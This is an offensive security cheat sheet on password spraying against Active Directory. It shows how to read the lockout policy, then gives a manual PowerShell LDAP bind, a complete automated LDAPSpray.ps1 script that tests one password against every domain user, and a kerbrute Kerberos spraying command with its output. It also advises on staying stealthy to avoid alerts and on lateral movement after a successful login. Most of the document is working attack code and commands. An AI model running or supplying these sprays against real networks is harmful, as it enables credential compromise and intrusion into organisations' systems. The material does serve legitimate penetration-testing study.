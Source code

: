 # Password Spraying

Before attempting any password attacks, check the domain's **account lockout policy** to avoid locking out accounts or triggering alerts. For instance, based on the below policy, we can safely try 4 login attempts per user every 30 minutes (192 attempts per user per day):

{% tabs %}
{% tab title="NetExec" %}
We can read the domain's password policy from Linux:

```bash
# List the domain's password policy
nxc smb <target-ip> -u <user> -p <pass> --pass-pol
```
{% endtab %}

{% tab title="Net" %}
Enumerate the domain's password policy from the target Windows host:

```powershell
# List the account policy
> net accounts
...
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
...
```
{% endtab %}
{% endtabs %}

## LDAP-Based

This method leverages LDAP binding via PowerShell’s `.NET` libraries. It attempts authentication by trying to create an LDAP object — if it succeeds, the credentials are valid. This method is **stealthy**, no interactive log in, and **respects lockout policy**, but is **slow** and **limited to one password per run**.

{% tabs %}
{% tab title="Manual" %}
On the below example, if the password is invalid it will throw an error, if it's it will return the DN:&#x20;

{% code overflow="wrap" %}
```powershell
# Get the domain and PDC
$domain = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = $domain.PdcRoleOwner.Name

# Construct the LDAP path
$ldap = "LDAP://$PDC/DC=" + $domain.Name.Replace('.', ',DC=')
# Attempt authentication
$entry = New-Object System.DirectoryServices.DirectoryEntry($ldap, "pete", "Nexus123!")

# Trigger authentication
$entry.distinguishedName  # Triggers authentication
```
{% endcode %}
{% endtab %}

{% tab title="Automated" %}
We can automate this with a script which loops through AD users and reports valid logins:

{% code title=".\LDAPSpray.ps1" overflow="wrap" %}
```powershell
param(
    [string]$Password = "Nexus123!",
    [string]$Domain = ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).Name
)

Write-Host "[*] Starting LDAP password spray for domain: $Domain"
$PDC = ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner).Name
$LDAP = "LDAP://$PDC/DC=" + $Domain.Replace('.', ',DC=')

# Get all users from AD
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "(objectCategory=person)"
$Searcher.PageSize = 1000
$Searcher.PropertiesToLoad.Add("sAMAccountName") > $null
$Users = $Searcher.FindAll() | ForEach-Object { $_.Properties.samaccountname }

foreach ($User in $Users) {
    if ([string]::IsNullOrWhiteSpace($User)) { continue }

    try {
        $Entry = New-Object System.DirectoryServices.DirectoryEntry($LDAP, $User, $Password)
        $null = $Entry.distinguishedName  # Force bind/authentication
        Write-Host "[+] VALID: $User : $Password"
    } catch {
        Write-Host "[-] INVALID: $User"
    }
}
```
{% endcode %}

We can then use it as follows:

```powershell
> .\LDAPSpray.ps1 -Password "Nexus123!"
```
{% endtab %}
{% endtabs %}

## SMB-Based

This method involves a full SMB session setup/teardown on each authentication attempt so it's **slow**, **noisy**, and **does not respect the lockout policy**.

> _With `netxec`, if a sprayed password is valid_ _and the user is a `local administrator` on the target system, the `(Pwn3d!)` string will appear. This means that tools like `psexec`, `wmiexec`, or `secretsdump` can be used for lateral movement or privilege escalation._

## Kerberos-Based

This method uses Kerberos `AS-REQ`s to test credentials. It's **lightweight** (no full session required) and **fast** (only two UDP packets per attempt: `AS-REQ`, `AS REP`/`error`).&#x20;

This attack can be performed with tools like [`kerbrute`](https://github.com/ropnop/kerbrute), a cross-platform tool which performs password spraying by automating `AS-REQ` requests and interpreting the responses:

{% hint style="warning" %}
Ensure the files is encoded in **ANSI**, not UTF-8 with BOM. If you see strange network errors from `kerbrute`, try re-saving the file in Notepad with **Encoding: ANSI** via "Save As".
{% endhint %}

```powershell
> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
...
2022/09/06 20:30:48 >  Using KDC(s):
2022/09/06 20:30:48 >   dc1.corp.com:88
2022/09/06 20:30:48 >  [+] VALID LOGIN:  jen@corp.com:Nexus123!
2022/09/06 20:30:48 >  [+] VALID LOGIN:  pete@corp.com:Nexus123!
2022/09/06 20:30:48 >  Done! Tested 3 logins (2 successes) in 0.041 seconds
```

## Method Comparison

| Protocol | Noise | Lockout-Safe | Speed     | Notes                              |
| -------- | ----- | ------------ | --------- | ---------------------------------- |
| LDAP     | Low   | ✅ Yes        | Medium    | Scriptable, stealthy               |
| SMB      | High  | ❌ No         | Slow      | Reveals admin access (`Pwn3d!`)    |
| Kerberos | Low   | ❌ No         | Very Fast | UDP-based, great for fast spraying |
